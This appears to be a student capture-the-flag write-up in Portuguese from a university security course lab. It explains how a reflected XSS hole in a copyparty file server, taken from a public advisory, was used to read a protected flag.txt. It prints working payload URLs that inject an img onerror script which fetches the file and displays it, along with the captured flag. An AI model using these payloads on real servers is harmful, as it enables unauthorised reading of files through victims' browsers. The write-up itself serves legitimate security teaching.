

## CTF WEEK7

### Questões

**Encontra o ficheiro referente à flag no servidor. Porque é que não consegues aceder diretamente à flag secreta?**

-Existe alguma restrição no ficheiro flag.txt, porque quando tentámos abrir, no ficheiro flag.txt tem a seguinte mensagem **"Nice try, I am only accessible via JavaScript shenanigans."**

**Este serviço é popular, até pode ser que tenha vulnerabilidades conhecidas. Será que podem ajudar a que acedas à flag?**

-Sim,encontrámos um [github](https://github.com/9001/copyparty/security/advisories/GHSA-f54q-j679-p9hh) com um exploit conhecido para este tipo de vulnerabilidades, o que nos ajudou a conseguir obter a flag 


**Qual é o tipo da vulnerabilidade de XSS (Reflected, Stored ou DOM) que te permitiu aceder à flag?**

-A forma como conseguimos obter a flag foi com um ataque **XSS Reflected**


**Explicação do ataque**

Depois de encontramos o exploit num [github](https://github.com/9001/copyparty/security/advisories/GHSA-f54q-j679-p9hh), o que fizemos foi tentar perceber como funcionava o ataque.

Seguidamente trocámos os parámetros do exploit por algo que fizesse sentido para o nosso caso.

ou seja,trocámos isto:

```
https://localhost:3923/?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1)%3E
```

por isto, trocando apenas a tag da img:

```
http://ctf-fsi.fe.up.pt:5007/?k304=y%0D%0A%0D%0A%3C%3Cimg%20src=%22copyparty%22%20onerror=%22fetch(%27/flag.txt%27).then(response%20=%3E%20response.text()).then(text%20=%3E%20alert(text))%22%3E%3Dcopyparty+onerror%3Dalert(1)%3E


 response.text()).then(text => alert(text))">
```


Com sucesso conseguimos aceder à flag, que apareceu como espécie de um "alerta" no endereço para o qual fomos redirecionados.

flag->flag{youGotMeReallyGood}




